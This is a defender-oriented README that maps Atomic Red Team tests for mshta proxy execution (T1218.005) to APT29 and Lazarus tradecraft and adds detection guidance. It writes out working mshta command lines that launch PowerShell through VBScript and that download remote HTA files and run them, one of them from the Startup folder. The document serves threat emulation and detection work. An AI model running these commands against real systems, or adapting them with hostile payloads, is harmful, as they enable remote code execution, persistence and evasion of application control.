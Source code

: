 # Atomic Red Team Tests for APT29 and Lazarus Group - T1218.005 Signed Binary Proxy Execution: Mshta

This repository documents selected **Atomic Red Team tests for T1218.005 (Signed Binary Proxy Execution: Mshta)** that closely emulate the tradecraft of **APT29** (a.k.a. Cozy Bear, Midnight Blizzard) and **Lazarus Group**.

The goal is to:
* Provide defenders with a curated set of relevant tests for detecting mshta abuse activities
* Map each test to known adversary behaviors and campaigns
* Highlight overlap and differences between the groups' execution techniques

---

## Background

* **APT29** (Cozy Bear, Midnight Blizzard) is a Russian state-sponsored threat group
  * Known for sophisticated cyber espionage and the **SolarWinds compromise**
  * Frequently uses **living-off-the-land techniques** with legitimate system utilities
  * Employs **mshta.exe** to execute malicious scripts and bypass application controls

* **Lazarus Group** is a North Korean state-sponsored threat group
  * Known for **financial theft campaigns** and destructive attacks
  * Uses **mshta.exe** to execute HTML pages downloaded by initial access documents
  * Leverages trusted Windows utilities to evade detection

Both groups leverage T1218.005 (Mshta) because it allows them to:
* Execute malicious code through a trusted Microsoft-signed binary
* Bypass application control solutions that don't account for mshta abuse
* Execute scripts outside of browser security contexts
* Proxy execution of remote payloads

---

## Selected Atomic Tests for T1218.005

| Test # | Technique | Description | Used By |
|--------|-----------|-------------|---------|
| **2** | Mshta executes VBScript to execute malicious command | Uses VBScript via mshta to run PowerShell commands | **APT29** |
| **3** | Mshta Executes Remote HTML Application (HTA) | Downloads and executes remote HTA file | **Lazarus** |
| **6** | Invoke HTML Application - Direct download from URI | Directly executes HTA from remote URI | **Lazarus** |
| **10** | Mshta used to Execute PowerShell | Uses mshta to execute PowerShell commands | **APT29** |

---

## Detailed Test Analysis

### Atomic Test #2 - Mshta executes VBScript to execute malicious command
**Technique:** VBScript Execution via Mshta  
**Adversary Usage:** APT29  
**Command:**
```cmd
mshta vbscript:Execute("CreateObject(""Wscript.Shell"").Run ""powershell -noexit -file PathToAtomicsFolder\T1218.005\src\powershell.ps1"":close")
```
**Explanation:** APT29 has used mshta.exe to execute VBScript that in turn launches PowerShell commands. This technique allows them to chain multiple execution methods and bypass security controls that might monitor PowerShell directly.

### Atomic Test #3 - Mshta Executes Remote HTML Application (HTA)
**Technique:** Remote HTA Execution  
**Adversary Usage:** Lazarus Group  
**Command:**
```powershell
$var =Invoke-WebRequest "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.005/src/T1218.005.hta"
$var.content|out-file "$env:appdata\Microsoft\Windows\Start Menu\Programs\Startup\T1218.005.hta"
mshta "$env:appdata\Microsoft\Windows\Start Menu\Programs\Startup\T1218.005.hta"
```
**Explanation:** Lazarus Group has used mshta.exe to execute HTML pages downloaded by initial access documents. This technique allows them to stage payloads from remote locations while leveraging a trusted Windows utility.

### Atomic Test #6 - Invoke HTML Application - Direct download from URI
**Technique:** Direct URI Execution  
**Adversary Usage:** Lazarus Group  
**Command:**
```powershell
Invoke-ATHHTMLApplication -HTAUri "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/24549e3866407c3080b95b6afebf78e8acd23352/atomics/T1218.005/src/T1218.005.hta" -MSHTAFilePath "$env:windir\system32\mshta.exe"
```
**Explanation:** Lazarus Group frequently downloads and executes remote HTA content directly from URIs, demonstrating their preference for direct remote execution without intermediate file stages.

### Atomic Test #10 - Mshta used to Execute PowerShell
**Technique:** PowerShell Execution via Mshta  
**Adversary Usage:** APT29  
**Command:**
```cmd
mshta.exe "about:<hta:application><script language="VBScript">Close(Execute("CreateObject(""Wscript.Shell"").Run%20""powershell.exe%20-nop%20-Command%20Write-Host%20Hello,%20MSHTA!;Start-Sleep%20-Seconds%205"""))</script>'"
```
**Explanation:** APT29 has used mshta to execute PowerShell commands, as documented in the 2021 Threat Detection Report by Red Canary. This technique allows them to execute PowerShell while potentially bypassing monitoring that focuses on direct PowerShell execution.

---

## Correlation with APT29 & Lazarus

* **APT29 Focus:**
  * VBScript execution leading to PowerShell (#2, #10)
  * Indirect command execution through trusted utilities
  → Used for stealthy execution during espionage operations

* **Lazarus Group Focus:**
  * Remote HTA execution (#3, #6)
  * Direct download and execution from URIs
  → Used for initial payload delivery and execution chain

* **Overlap:**
  * Both groups abuse **mshta.exe** for execution
  * Both leverage **trusted Windows utilities** to evade detection
  * Both use **multiple execution methods** in chains

---

## Defender Notes

* These tests are high-value because they **closely emulate real-world adversary tradecraft**
* Detection should focus on:
  * mshta.exe executing with unusual parameters (especially with "vbscript:" or "javascript:" prefixes)
  * mshta.exe making network connections to download remote content
  * mshta.exe spawning other processes like PowerShell or cmd
  * mshta.exe executing from unusual directories or with unusual parent processes
* Correlation across events is essential:
  * Process creation + network connections to external domains
  * Unusual parent-child process relationships (e.g., Office applications spawning mshta)
  * Multiple execution methods chained together
* Implement application control to restrict mshta.exe if not needed for business purposes
* Monitor for mshta.exe execution patterns that deviate from normal administrative use

## Campaign References

1. **APT29 Various Campaigns**: Uses mshta to execute VBScript and PowerShell commands for execution
2. **Lazarus Operation Dream Job**: Uses mshta to execute HTML pages downloaded by initial access documents
3. **FIN7 Operations**: Uses mshta.exe to execute VBScript to execute malicious code (as referenced in Atomic Test #2)

## Academic References

1. MITRE ATT&CK Technique T1218.005 - Signed Binary Proxy Execution: Mshta
2. Red Canary: "2021 Threat Detection Report" (APT29 mshta usage)
3. US-CERT: "Hidden Cobra - North Korean Malicious Cyber Activity" (Lazarus Group TTPs)
4. Microsoft: "NOBELIUM targeting IT supply chain" (APT29 techniques)
5. FireEye: "APT29 Domain Fronting With TOR" (2017)